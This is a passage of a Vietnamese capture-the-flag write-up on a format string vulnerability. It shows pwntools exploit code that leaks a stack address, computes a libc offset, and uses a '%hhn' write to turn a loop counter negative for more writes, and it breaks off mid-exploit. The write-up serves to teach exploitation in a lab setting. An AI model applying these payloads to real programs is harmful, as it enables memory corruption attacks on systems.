 
với payload này , địa chỉ libc là mình tìm được ở công đoạn trên , vì random đôi lúc dính 1 byte filter nên cần chạy nhiều lần


```python
payload = b'%7$szzzz'
payload += p64(libc.address +0x1ff550)
```

- ta thấy lúc này ở offset 7 chứa địa chỉ stack , vì vậy ta có thể leak thành công ^^

![stack](/assets/images/stack-address.png)

![here](/assets/images/stack-leak3.png)

- điều tiếp theo cần làm là ta chỉ có 2 lần được ```fsb``` , ta phải ghi giá trị biến đếm thành 1 giá trị âm (0x80xxxxx) , và ta cũng sẽ tính toán ```saved_rip``` của ```main```


```cs
leak_stack = u64(p.recv(6).ljust(8,b'\x00'))

count = leak_stack - 0x118 - 0xc + 3
saved_rbp_main = leak_stack - 0x118
log.info(f'leak_stack: {hex(leak_stack)}')
log.info(f'count: {hex(count)}')
log.info(f'saved_rbp_main: {hex(saved_rbp_main)}')

payload_change_count = b'%128c%8$hhn'
payload_change_count = payload_change_count.ljust(16,b'z')
payload_change_count += p64(count)

p.sendlineafter(b'>> ',b'2')
p.sendlineafter(b'>> ',payload_change_count)
```
